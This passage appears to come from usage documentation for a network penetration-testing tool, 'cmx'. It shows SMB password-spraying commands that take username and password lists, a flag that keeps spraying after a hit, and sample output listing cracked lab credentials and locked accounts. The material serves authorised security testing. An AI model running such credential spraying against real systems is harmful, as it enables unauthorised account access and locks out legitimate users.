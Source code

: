 ```

```

------------------------------------------------------------------------
### Using Username and/or Password Lists

You can use multiple usernames or passwords by seperating the names/passwords with a space.
```
#~ cmx smb 10.10.33.123 -u user1 user2 user3 -p Summer18
#~ cmx smb 10.10.33.123 -u user1 -p password1 password2 password3
```
Example using multiple passwords:
```
#~ cmx smb 10.10.33.123 -u agrande -p password1 Spring19 User\!23

Aug.20.19 14:49:23  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 14:49:23  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\agrande:password1 STATUS_LOGON_FAILURE 
Aug.20.19 14:49:23  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\agrande:Spring19 STATUS_LOGON_FAILURE 
Aug.20.19 14:49:23  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
```

CMX also accepts files of usernames and passwords. One user/password per line.
Watch out for account lockout!  
```
#~ cmx smb 10.10.33.123 -u /path/to/users.txt -p Summer18
#~ cmx smb 10.10.33.0/24 -u Administrator -p /path/to/passwords.txt
```

Example using username list:
```
#~ cmx smb 10.10.33.123 -u userlist -p User\!23 
Aug.20.19 14:50:08  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 14:50:08  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\TestUser1:User!23 STATUS_LOGON_FAILURE 
Aug.20.19 14:50:08  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\UserA:User!23 STATUS_LOGON_FAILURE 
Aug.20.19 14:50:08  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\Administrator:User!23 STATUS_LOGON_FAILURE 

```

------------------------------------------------------------------------
### Keep spraying after success  

\*Note\*: By default CMX will exit after a successful login is found.
Using the --continue-on-success flag will continue spraying even after a 
valid password is found. Usefull for spraying a single password against a large user list  
Example:  
```
#~ cmx smb 10.10.33.123 -u doms -p User\!23 --continue-on-success 

Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\ozzy:User!23 STATUS_ACCOUNT_LOCKED_OUT 
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\mbellamy:User!23 STATUS_ACCOUNT_LOCKED_OUT 
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\tswift:User!23 (Pwn3d!)
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\tim:User!23 STATUS_ACCESS_DENIED 
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\carol:User!23 STATUS_LOGON_FAILURE 
```